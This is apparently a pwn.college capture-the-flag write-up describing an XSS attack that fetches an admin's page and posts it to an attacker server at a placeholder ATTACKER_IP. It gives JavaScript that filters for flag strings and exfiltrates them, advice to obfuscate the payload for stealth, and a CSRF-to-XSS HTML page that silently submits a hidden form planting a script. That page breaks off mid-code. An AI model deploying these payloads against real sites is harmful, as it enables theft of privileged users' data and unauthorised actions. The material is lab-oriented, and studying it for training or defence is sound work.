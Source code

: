 ### How It Works
1. **XSS Execution**: The admin is redirected to the vulnerable site, and the `msg` parameter contains the XSS payload.
2. **Fetching Admin's Page**: The XSS payload fetches the admin's version of `http://challenge.localhost/`.
3. **Exfiltration**: The fetched HTML is sent to the attacker's server via a `POST` request.
4. **Error Handling**: Any errors encountered during the fetch are sent to the attacker's server for debugging.

### Notes
- **Replace Placeholders**: Replace `http://ATTACKER_IP:port` with your server's address.
- **Testing**: Host this payload on your attacker-controlled server and monitor incoming `POST` requests for results.
- **Next Steps**: If the page contains sensitive data, parse the content to extract only relevant details before sending it.

### Enhancements
1. **Filtering Data**:
   ```javascript
   const matches = html.match(/pwn\.college\S*/g) || [];
   fetch('http://ATTACKER_IP:port', {
     method: 'POST',
     mode: 'no-cors',
     body: JSON.stringify({ matches })
   });
   ```
2. **Obfuscation**:
   Use a tool or method to obfuscate the payload for stealth purposes.

---
### Other Examples

CSRF to XSS to call webpage with redirect elements
```html
<html>
  <body>
    <script>
      // Step 1: Create a draft with XSS payload
      const draftForm = document.createElement('form');
      draftForm.method = 'POST';
      draftForm.action = 'http://challenge.localhost/draft';
      draftForm.style.display = 'none';

      // Add content field with XSS payload
      const contentInput = document.createElement('input');
      contentInput.type = 'hidden';
      contentInput.name = 'content';
      contentInput.value = "<script>alert('XSS Triggered')</s"+"cript>";
      draftForm.appendChild(contentInput);

      // Add publish field
      const publishInput = document.createElement('input');
      publishInput.type = 'hidden';
      publishInput.name = 'publish';
      publishInput.value = 'false';
      draftForm.appendChild(publishInput);

      // Append the form to the body and submit it
      document.body.appendChild(draftForm);
      draftForm.submit();

      // Step 2: Redirect to publish after a delay
      setTimeout(() => {
```
